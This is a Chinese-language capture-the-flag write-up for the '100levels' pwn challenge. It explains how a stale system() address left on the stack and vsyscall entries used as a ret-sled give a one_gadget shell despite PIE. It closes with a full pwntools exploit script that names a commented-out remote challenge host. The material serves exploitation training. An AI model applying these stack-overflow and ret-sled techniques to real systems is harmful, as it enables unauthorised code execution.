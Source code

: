 # 100levels WP

拿到题目先看防护机制  

![](https://raw.githubusercontent.com/f61d/challenges/master/pwn/Stackoverflow/100levels/index_files/1.png)    

发现开了PIE，这是最让人头痛的防护机制，这就意味着我们需要想办法获得一个libc中的函数的地址才行。接着分析程序逻辑   

![](https://raw.githubusercontent.com/f61d/challenges/master/pwn/Stackoverflow/100levels/index_files/2.png)  

程序有两个主要模块，一个游戏模块，一个提示模块。游戏模块是进行两次输入，然后将两次的值相加，得出你需要进行的游戏关卡数，同时这个关卡数最大不超过100。hint模块则是判断hint_flag这个全局变量，为1则输出system函数的运行时地址。但是hint_flag始终为0，所以可以考虑修改这个值来获得system函数地址。   

![](https://raw.githubusercontent.com/f61d/challenges/master/pwn/Stackoverflow/100levels/index_files/3.png)    

![](https://raw.githubusercontent.com/f61d/challenges/master/pwn/Stackoverflow/100levels/index_files/3.png)    

![](https://raw.githubusercontent.com/f61d/challenges/master/pwn/Stackoverflow/100levels/index_files/4.png)    

分析游戏模块，可以很明显地看到有一个栈溢出的点   

![](https://raw.githubusercontent.com/f61d/challenges/master/pwn/Stackoverflow/100levels/index_files/5.png)    

但是苦于PIE，而且游戏一旦开始，无论输赢最后都会结束进程，完全想不到任何对栈攻击的方法，所以只能将希望寄托于hint模块，先想办法获取system函数的地址。因为hint_flag是在堆上，又没有想到什么针对堆的输入，所以放弃这里。    

接下来就是很关键的一点了，这里的漏洞不分析汇编代码是看不出来的。   

![](https://raw.githubusercontent.com/f61d/challenges/master/pwn/Stackoverflow/100levels/index_files/6.png)    

通过分析hint模块，我们发现无论hint_flag的值为多少，system函数的地址都会被存放在栈上rbp+110的地方上，就是说栈上是有system函数的地址的。这就很好了，就是说通过栈我们有办法获得需要的东西，不再是像前面那样毫无想法了。   

然后我们再返回去看game模块

![](https://raw.githubusercontent.com/f61d/challenges/master/pwn/Stackoverflow/100levels/index_files/7.png)    

然后我们回忆下程序的调用流程，我们完全可以这样调用：menu->call hint()->ret menu->call game()     

这样一来，game与hint的栈帧将一样，也就是说，game模块的rbp+110偏移处的值将会是hint模块的rbp+110偏移处的值。也就是说，system函数的地址将被固定在game模块的栈中！！这就很好了，因为虽然hint模块没有再次调用函数，也就是没有办法通过栈溢出ret到system函数的位置，但是game模块调用了play()函数，而且play函数中有栈溢出的漏洞可以利用 。    

然后接下来的问题就变成了怎么利用这个栈上的system函数地址。这里可以想到系统滑板。      

先把这个栈上的大概内容整理一下   

![](https://raw.githubusercontent.com/f61d/challenges/master/pwn/Stackoverflow/100levels/index_files/8.png)     

初步的想法是直接返回到system函数处，但是这个system函数并不在play函数的ret处，所以需要借助一个滑板滑到sys_addr处。这里就可以用到vsyscall()来充当这个滑板。   

现代的Windows/*Unix操作系统都采用了分级保护的方式，内核代码位于R0，用户代码位于R3。许多对硬件和内核等的操作都会被包装成内核函数并提供一个接口给用户层代码调用，这个接口就是我们熟知的int 0x80/syscall+调用号模式。当我们每次调用这个接口时，为了保证数据的隔离，我们需要把当前的上下文(寄存器状态等)保存好，然后切换到内核态运行内核函数，然后将内核函数返回的结果放置到对应的寄存器和内存中，再恢复上下文，切换到用户模式。这一过程需要耗费一定的性能。对于某些系统调用，如gettimeofday来说，由于他们经常被调用，如果每次被调用都要这么来回折腾一遍，开销就会变成一个累赘。因此系统把几个常用的无参内核调用从内核中映射到用户空间中，这就是vsyscall。     

vsyscall的地址并不受PIE的影响，始终在0xffffffffff600000-0xffffffffff601000处，而且总共有三个，从低地址到高地址分别是gettimeofday, time和getcpu。     

![](https://raw.githubusercontent.com/f61d/challenges/master/pwn/Stackoverflow/100levels/index_files/9.png)![](https://raw.githubusercontent.com/f61d/challenges/master/pwn/Stackoverflow/100levels/index_files/10.png)![](https://raw.githubusercontent.com/f61d/challenges/master/pwn/Stackoverflow/100levels/index_files/11.png)   

但是需要注意的是，vsyscall执行时会进行检查，如果不是从函数开头执行的话就会出错。因此，我们唯一的选择就是利用0xffffffffff600000, 0xffffffffff600400, 0xffffffffff600800这三个地址。因为这三个位置是死的，所以我们就用这三个来做滑板，滑到sysaddr那里。     

分析栈布局，构造我们的exp。     

![](https://raw.githubusercontent.com/f61d/challenges/master/pwn/Stackoverflow/100levels/index_files/12.png)   

![](https://raw.githubusercontent.com/f61d/challenges/master/pwn/Stackoverflow/100levels/index_files/13.png)   

![](https://raw.githubusercontent.com/f61d/challenges/master/pwn/Stackoverflow/100levels/index_files/14.png)   

这里需要注意，我们这样相当于会把sys_addr和第二次输入的值相加得到最终的关卡数，上限是100。所以我们后面还要完成99次的答题，然后在最后一次实现栈溢出。但是还有一点就是，这里我们只有system的地址，还没有放好参数。但是想要放好参数有需要直到程序的加载地址，以构造ROP链。所以我们干脆不调用system函数，直接调用libc中的one_gadget。所以还需要计算system函数的地址和one_gadget的地址之差，然后令其加和。      

![](https://raw.githubusercontent.com/f61d/challenges/master/pwn/Stackoverflow/100levels/index_files/15.png)    

最后写出exp      

```python
from pwn import *

context.log_level = True

p = process('./100levels')
#p = remote('111.198.29.45', 53167)
elf = ELF('./100levels')

one_gadget = 0x45216
sys_addr = 0x45390
offset = one_gadget - sys_addr
vsys_addr = 0xffffffffff600007

def hint():
    print p.recvuntil("Choice:\n")
    p.sendline('2')
    print p.recvuntil('NO PWN NO FUN\n')

def play():
    print p.recvuntil('Question: ')
    a = p.recvuntil(' ')
    a = a[:-1]
    a = int(a, 10)
    print p.recvuntil('* ')
    b = p.recvuntil(' ')
    b = b[:-1]
    b = int(b, 10)
    print p.recvuntil('Answer:')
    p.sendline(str(a * b))
    
def boom():
    payload = 'a' * 0x30 + 'a' * 8 + p64(vsys_addr) * 3
    print p.recvuntil('Answer:')
    p.send(payload)

def game():
    print p.recvuntil("Choice:\n")
    p.sendline('1')
    print p.recvuntil('How many levels?\n')
    p.sendline('-1')
    print p.recvuntil('Any more?\n')
    p.sendline(str(offset))
    print p.recvuntil("Let's go!'\n")
    for i in range(99):
        play()
    boom()
    p.interactive()

if __name__ == "__main__":
    hint()
    game()
```

